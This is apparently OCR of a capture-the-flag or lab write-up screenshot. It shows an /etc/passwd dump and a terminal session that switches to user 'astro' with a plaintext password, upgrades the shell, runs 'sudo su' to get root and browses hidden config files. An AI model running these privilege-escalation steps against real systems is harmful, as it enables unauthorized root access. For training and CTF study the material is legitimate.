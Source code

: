 sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
tcpdump:x:101:105::/nonexistent:/usr/sbin/nologin
astro:x:1001:1001::/home/astro:/bin/sh


====================================================================================================================================================================================


www-data@05cc10128c04:/var/www/html$ su astro
su astro
Password: iloveastro


====================================================================================================================================================================================


/usr/bin/script -qc /bin/bash /dev/null


====================================================================================================================================================================================
/usr/bin/script -qc /bin/bash /dev/null
astro@05cc10128c04:/var/www/html$ ls
ls
index.php  sniff.txt
astro@05cc10128c04:/var/www/html$ sudo su
sudo su
root@05cc10128c04:/var/www/html# ls
ls
index.php  sniff.txt
root@05cc10128c04:/var/www/html# ls -la
ls -la
total 20
drwxr-xr-x 1 www-data www-data 4096 Jul 19 12:45 .
drwxr-xr-x 1 root     root     4096 Jul 19 12:45 ..
drwxr-xr-x 2 root     root     4096 Jul 19 12:45 .config
-rw-r--r-- 1 www-data www-data 2860 Jul 18 18:57 index.php
-rw-r--r-- 1 www-data www-data   72 Jul 19 12:27 sniff.txt
root@05cc10128c04:/var/www/html# cd .config
cd .config
root@05cc10128c04:/var/www/html/.config# ls
ls
dpkg-l.txt  etc-apache2.tar  etc-php.tar
root@05cc10128c04:/var/www/html/.config# cat dpkg-l.txt
cat dpkg-l.txt
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                              Version                           Architecture Description